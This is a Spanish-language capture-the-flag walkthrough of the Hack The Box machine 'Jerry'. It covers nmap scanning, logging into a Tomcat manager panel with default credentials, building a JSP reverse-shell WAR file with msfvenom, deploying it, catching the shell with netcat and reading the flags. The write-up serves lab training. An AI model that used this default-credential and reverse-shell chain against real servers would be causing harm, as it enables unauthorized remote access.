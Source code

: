![Captura de pantalla -2022-05-09 09-36-58](https://user-images.githubusercontent.com/103068924/167362483-2fb9697d-8b28-490a-8f61-2a60dcf94c31.png)

# HTB-Jerry

En primer lugar, nos creamos un directorio con el nombre de la máquina desde el que trabajaremos:

    sudo mkdir Jerry
    
Ahora, mediante la función [`mkt`](../Web/Herramientas_y_Scripts/mkt.html) que tengo previamente definida en la `.zhshrc` crearemos nuestros directorios de trabajo:

    sudo mkt

Esta función está definida para crearnos cuatro directorios (`nmap`, `content`, `exploits` y `scripts`) desde los cuales poder trabajar a la hora de
realizar las máquinas de HTB.

## Fase de Reconocimiento:

Ejecutamos un `ping` y vemos como nos reporta un ttl=127, por tanto, ya sabemos que estamos frente una máquina Windows.

    ping -c 1 10.10.10.95
    
![Captura de pantalla -2022-05-09 09-41-43](https://user-images.githubusercontent.com/103068924/167363813-7dab983b-d779-40bb-9ee9-fa2098fad932.png)

Ahora vamos a ver mediante `whatweb` que más podemos ver:

    whatweb 10.10.10.95
    
![Captura de pantalla -2022-05-09 09-48-48](https://user-images.githubusercontent.com/103068924/167364415-8e3dae47-0de7-4b61-b469-d7f0dbff2539.png)

Nos reporta un erro al tratar de acceder. Por tanto, vamos a realizar mediante [`nmap`](../Herramientas_y_Scripts/Nmap.html)
una serie de escaneos para ver que puertos se encuentran abiertos, primero realizaré un escaneo básico:

    nmap -p- --open -T5 -v -n 10.10.10.95 -oG allPorts
  
`-oG` : Exportar los resultados en formato grepeable.
  
`allPorts` : Nombre del archivo. Si no existe lo creará.
  
De esta manera podremos revisar los puertos que estaban abiertos en cualquier momento.

![Captura de pantalla -2022-05-09 10-02-16](https://user-images.githubusercontent.com/103068924/167366619-2fea1b36-9776-47cd-8c0d-a516313f4c11.png)

![Captura de pantalla -2022-05-09 10-02-34](https://user-images.githubusercontent.com/103068924/167366626-008b8f13-f83a-4e1d-a74c-9e3844c33f17.png)

Como podemos ver, nos reporta que el puerto 8080 está abierto, vamos a proceder a un segundo escaneo especificando
que quereros utilizar la variable `--script http-enum` en el puerto 8080 y guardaremos los resultados en el archivo 
`targetenum`.

    sudo nmap --script http-enum -p8080 10.10.10.95 -oN targetenum 
    
![Captura de pantalla -2022-05-07 15-15-30](https://user-images.githubusercontent.com/103068924/167366694-67b211b3-0e2c-45d5-9d33-217119e4df2b.png)

![Captura de pantalla -2022-05-07 15-24-03](https://user-images.githubusercontent.com/103068924/167366815-7cda1186-3b70-4313-b7bd-cbc85727409c.png)

Vemos que en el puerto `8080` corre un servicio `http`, por tanto, vamos a intentar acceder mediante el navegador de Firefox.

![Captura de pantalla -2022-05-07 15-09-34](https://user-images.githubusercontent.com/103068924/167367405-e0c39dde-b045-4a47-996c-8585896b46e5.png)

Vemos que al intentar acceder al dominio `http://10.10.10.95` la página no termina de cargar, pero tampoco reporta ningún error. Por tanto, lo siguiente que
probaremos será especificar el puerto en el que corre el servicio, por tanto, intentamos acceder al dominio `http://10.10.10.95:8080`.

![Captura de pantalla -2022-05-07 15-11-45](https://user-images.githubusercontent.com/103068924/167368005-2fbf0775-5bb5-4ee6-ba8d-386529a1706c.png)

![Captura de pantalla -2022-05-07 15-09-34](https://user-images.githubusercontent.com/103068924/167368016-77a414e6-3ce0-4ee2-ae34-d79d955ca882.png)

## Fase de Inrusión:

Genial ya nos carga la página, vemos que se trata de la página oficial de un programa llamado `Tomcat`. Lo siguiente que vamos a probar, es tratar de
acceder al directorio `./manager/html`.

![Captura de pantalla -2022-05-07 15-17-15](https://user-images.githubusercontent.com/103068924/167369103-a8c49c92-7566-4e5a-8cc2-0077f62154ad.png)

![Captura de pantalla -2022-05-07 15-17-33](https://user-images.githubusercontent.com/103068924/167369119-303c65f3-30f4-4435-a170-a8d7ca3a8cd3.png)

Nos muestra una ventana de registro, como se trata de una máquina fácil, podemos probar con combinaciones básicas para ver si conseguimos ingresar
de manera sencilla.

![Captura de pantalla -2022-05-07 15-17-43](https://user-images.githubusercontent.com/103068924/167369536-153cffa5-e7a3-48ba-a9a7-5a6b6a9d761e.png)

Tras probar algunas combinaciones vemos que utilizando el usuario `admin` y la contraseña `admin` nos reporta este mensaje con un error de servicio 403.

![Captura de pantalla -2022-05-07 15-18-05](https://user-images.githubusercontent.com/103068924/167369705-e43f467d-4aea-4226-b0d3-2a8c5c3690b2.png)

Vemos como nos indica un ejemplo, donde nos muestra unas credenciales que se han usado para mostrar el ejemplo.

![Captura de pantalla -2022-05-07 15-20-56](https://user-images.githubusercontent.com/103068924/167369862-6c157b14-f241-4432-8fe9-d5e4707857a1.png)

Tratamos de acceder al panel anterior mediante estas credenciales a ver si nos permite registrarnos como el usuario `tomcat` y empleando la contraseña
`s3cret`.

![Captura de pantalla -2022-05-07 15-20-56](https://user-images.githubusercontent.com/103068924/167370646-06f8b867-1bbc-4920-848a-fd7e651d0a3c.png)

![Captura de pantalla -2022-05-09 10-23-23](https://user-images.githubusercontent.com/103068924/167370670-7fe63026-5173-4dce-bff7-7baeb579db9d.png)

![Captura de pantalla -2022-05-07 15-22-16](https://user-images.githubusercontent.com/103068924/167370734-2bb21a68-2dcd-4897-9047-fde8b66decbe.png)

Las credenciales funcionan y nos lleva hasta una página que parece gestionar aplicaciones. 

Tras revisar la página vemos que nos permite subir archivos, así que vamos a tratar de buscar alguna herramienta que nos permita crear una
shell inversa desde la cual poder interactuar con la máquina.

## Creación de una Reverse Shell mediante MsfVenom:

Mediante `msfvenom` podemos tratar de comprobar una gran cantidad de herramientas:

    msfvenom -l payloads

![Captura de pantalla -2022-05-07 15-25-25](https://user-images.githubusercontent.com/103068924/167371974-d9b41da2-3d47-40a1-8498-6d2f25678fc3.png)

![Captura de pantalla -2022-05-07 15-27-24](https://user-images.githubusercontent.com/103068924/167372055-941c21d6-2d55-4808-9994-391d329511a5.png)

Vamos a emplear la herramienta `jsp_shell_reverse_tcp`. Esta herramienta, especificándole nuestro host de escucha y el puerto mediante el siguiente
comando, nos creará un archivo en formato `.war` capaz de crear una shell inversa desde la máquina víctima.

![Captura de pantalla -2022-05-09 11-02-02](https://user-images.githubusercontent.com/103068924/167385544-1f78a708-b08c-4c23-b6b3-8787c0f05fd4.png)

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.14.29 LPORT=8080 -f war -o shell.war
    
![Captura de pantalla -2022-05-09 11-02-02](https://user-images.githubusercontent.com/103068924/167376951-11f44b27-79b4-4988-b325-4f8e8423ccb7.png)
    
Una vez creado nuestro archivo `shell.war` vamos a subirlo a la máquina víctima, pero antes, debemos mover nuestro archivo
al directorio `Descargas/Downloads`:

![Captura de pantalla -2022-05-07 15-32-25](https://user-images.githubusercontent.com/103068924/167373933-05569db6-7535-4e68-b2a3-ae5c0e72fb63.png)

Ahora, mediante el apartado de la página llamado `Archivo WAR a desplegar` subimos nuestro archivo `shell.war`.

![Captura de pantalla -2022-05-07 15-32-55](https://user-images.githubusercontent.com/103068924/167374610-e9b1e566-2a29-4116-bfec-33a11ae25fc6.png)

![Captura de pantalla -2022-05-07 15-33-38](https://user-images.githubusercontent.com/103068924/167374653-431287e4-5091-47b0-968a-85ec85904e40.png)

![Captura de pantalla -2022-05-07 15-34-28](https://user-images.githubusercontent.com/103068924/167374662-ab39d3f4-9253-43a4-9079-91b7a7caf281.png)

![Captura de pantalla -2022-05-07 15-34-42](https://user-images.githubusercontent.com/103068924/167374683-17d0860c-4808-40af-9788-25955448d081.png)

Recargamos la página y vemos como aparece nuestro archivo. El siguiente paso será ponerlo en escucha por el puerto `8080` mediante `nc` como se 
trata de un sistema Windows utilizaremos `rlwarp`:

    rlwrap nc -lvnp 8080

![Captura de pantalla -2022-05-09 11-07-21](https://user-images.githubusercontent.com/103068924/167385711-908c4b6b-e40d-48c2-8978-5536a0850301.png)


![Captura de pantalla -2022-05-09 11-07-30](https://user-images.githubusercontent.com/103068924/167386060-d0be171e-6afb-468c-a5c4-8699f4ffc08a.png)


Ahora, para ejecutar el archivo, simplemente nos vamos a la página y lo pulsamos.


![Captura de pantalla -2022-05-09 11-49-32](https://user-images.githubusercontent.com/103068924/167386089-4cd94622-03f5-45df-83d6-da925a2ea417.png)

Vemos como la shell se nos despliega en la terminal que tenemos en escucha con Netcat.

![Captura de pantalla -2022-05-09 11-55-16](https://user-images.githubusercontent.com/103068924/167386486-2bea3986-982e-4163-8293-4cf58fccc4f4.png)

Está máquina ya está básicamente terminada, ya que las dos flags se encuentran en el mismo archivo, el cual se encuentra en el directorio 
`C:\Users\Administrator\Desktop\flags`:

    cd /Users/Administrator/Desktop/flags
    
Vemos como dentro del directorio `flags` se encuentra el archivo `2 for the price at 1.txt`

![Captura de pantalla -2022-05-09 12-01-47](https://user-images.githubusercontent.com/103068924/167387535-4165e282-73a2-4d0a-a41a-4893cd492ef6.png)

Y finalmente, mediante `type` podemos visualizar el contenido:

![Captura de pantalla -2022-05-07 15-59-28](https://user-images.githubusercontent.com/103068924/167387517-8daf25ec-3c37-486f-8695-2894ca5daabe.png)


![Captura de pantalla -2022-05-09 09-36-58](https://user-images.githubusercontent.com/103068924/167387740-ca9ebbf6-6e75-47f5-b8e5-076a6e0eee27.png)

---
---
  
    
<html lang="en">
<head>
  
</head>
<body>

<script src="https://utteranc.es/client.js"
    repo="F1r0x/gestion-comentarios"
    issue-term="pathname"
    theme="github-light"
    crossorigin="anonymous"
    async>
</script>
          
    
  </body>
</html>
  
  
---
---



